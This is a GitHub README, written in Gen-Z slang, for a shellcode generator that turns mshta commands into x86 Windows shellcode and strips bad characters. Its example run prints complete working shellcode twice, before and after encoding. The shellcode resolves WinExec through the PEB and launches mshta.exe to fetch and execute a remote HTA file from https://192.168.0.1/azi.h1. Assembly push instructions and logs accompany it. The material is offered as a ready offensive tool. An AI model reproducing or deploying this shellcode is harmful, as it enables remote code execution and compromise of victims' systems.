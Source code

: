 
# ShellcodeGenZ
![image](https://github.com/user-attachments/assets/8ba517e4-acfd-4162-9720-fe8ec78af641)
![image](https://github.com/user-attachments/assets/8984c1dc-53f4-4f5b-b887-653461ee312e)

Yo, welcome to ShellcodeGenZ, the dopest shellcode generator for commands, crafted by the legend Zeyad Azima (https://zeyadazima.com - contact@zeyadazima.com). This tool's straight-up slayin' the game by whippin' up clean shellcode, yeetin' bad chars like nobody's biz, and droppin' logs so you know what's poppin'. Built with Gen-Z energy, it's got manual and auto modes to fix bad chars, checks for 0x00 like a boss, and keeps the vibes no cap. This is your go-to for shellcode that slaps.

## What's the Vibe?

ShellcodeGenZ takes your commands (like mshta.exe http://192.168.0.1/azi.hta) and turns 'em into shellcode that's ready to flex. It hunts down bad chars (like 0x0a, 0x0b, or the default 0x00), lets you yeet 'em manually or auto with add/subtract offsets, and logs every move so you're never lost. If 0x00 sneaks into push instructions, it's a hard pass—script's outtie. With colored output and Gen-Z slang, it's like codin' with your besties.

## Features That Slap
- mshta Shellcode Gen: Turns mshta commands into lit shellcode.
- Bad Char Yeeter: Spots bad chars and lets you fix 'em manual (pick your hex) or auto (add/subtract offsets).
- Manual Offset Drip: Choose your own offset for auto mode, or let it test 0x01 to 0xff.
- 0x00 Check: Always yeets 0x00 and bails if it's in push instructions.
- Logs for Days: Detailed logs with Gen-Z flair so you know what's good.
- Colorful Vibes: Rockin' colorama for that terminal glow-up.

## Gettin' Set Up

To dodge the externally-managed-environment drama, we settin' up a virtual env. Here's the tea:

1. Make a Virtual Env:
   ```bash
   python3 -m venv venv
   source venv/bin/activate
   ```

2. Snag the Dependencies:
   ```bash
   pip install keystone-engine colorama
   ```

3. Grab the Script:
   Clone this repo or yoink shellcode_genz.py from the files.

4. Yeet the Env (When Done):
   ```bash
   deactivate
   ```

## How to Slay with ShellcodeGenZ

1. Run the Script:
   Fire it up in your virtual env:
   ```bash
   python3 ShellcodeGenZ.py
   ```

2. Drop Your Inputs:
   - mshta command: Like mshta.exe http://example.com.
   - Bad chars: Comma-separated hex (e.g., 0a,0b). It always checks 0x00, no cap.

3. Yeet Bad Chars:
   - If bad chars pop up, choose to yeet 'em (Y/N).
   - Pick manual (drop new hex values) or automated (add/subtract offsets).
   - For auto, select manual offset (like 01) or automatic (tests all offsets).

4. Check the Output:
   - Shellcode drops as a byte string (e.g., b"\x...\").
   - Logs spill the tea on every step, from instructions to bad char fixes.

### Example Run

Input:
```
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - let's get this shellcode poppin'!
Drop your mshta command to make it lit: mshta.exe https://192.168.0.1/azi.h1
Spill the bad chars to yeet (comma vibes, like '0a,0b'): 01,20,80,81
```

Output (shortened for vibes):
```
2025-04-28 03:11:20,452 - INFO - mshta instructions are straight fire:
push 0x31682e69;
push 0x7a612f31;
push 0x2e302e38;
push 0x36312e32;
push 0x39312f2f;
push 0x3a737074;
push 0x74682065;
push 0x78652e61;
push 0x7468736d;
2025-04-28 03:11:20,454 - INFO - mshta shellcode’s droppin’ like a banger: shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x20\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:20,454 - INFO - Shellcode’s flexin’ at 217 bytes, no cap!
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x81 lurkin’ at index 2! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x81
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 25! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x01 lurkin’ at index 55! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 62! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 63! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 77! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 91! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 104! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 113! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 118! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x20 lurkin’ at index 187! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x20
Wanna yeet those bad chars? (Y/N): Y
You goin’ manual or auto for yeetin’ bad chars? (manual/automated): automated
Yo, what’s the move? Add or subtract for encodin’? (add/subtract): add
You droppin’ your own offset or we auto-pickin’? (manual/automatic): automatic
2025-04-28 03:11:51,821 - INFO - Kickin’ off bad char yeetin’ with add vibes and automatic offset slay
2025-04-28 03:11:51,821 - INFO - Bad chars we gotta yeet: 0x01, 0x20, 0x81
2025-04-28 03:11:51,821 - INFO - Chars we dodgin’: 0x01, 0x20, 0x80, 0x81, 0x00
2025-04-28 03:11:51,822 - INFO - Goin’ auto mode, testin’ offsets 0x01 to 0xff like a boss!
2025-04-28 03:11:51,822 - INFO - Dippin’ past offset 0x01 ‘cause it’s a bad char
2025-04-28 03:11:51,822 - INFO - Checkin’ offset 0x02... let’s see if it slaps
2025-04-28 03:11:51,822 - INFO -   Bad char 0x01 turnin’ into 0x03 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x20 turnin’ into 0x22 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x81 turnin’ into 0x83 (add 0x02)
2025-04-28 03:11:51,822 - INFO - YO, offset 0x02 is straight fire for add!
2025-04-28 03:11:51,822 - INFO - Replacements droppin’: 0x01 -> 0x03, 0x20 -> 0x22, 0x81 -> 0x83
2025-04-28 03:11:51,822 - INFO - Shellcode’s lookin’ fresh with new vibes: shellcode = b"\x89\xe5\x83\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x22\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x03\xdf\x8b\x4f\x18\x8b\x47\x22\x03\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x03\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x03\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x03\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x03\xda\x8b\x04\x8a\x03\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x22\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:51,823 - INFO - New shellcode length’s poppin’ off at 217 bytes!
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - we slayed it, fam!
```

## Got Tea?

Wanna add more drip, report a bug, or just vibe? Hit up the issues tab or slide into Zeyad’s DMs at contact@zeyadazima.com. Let’s keep ShellcodeGenZ the most lit shellcode tool in the game.
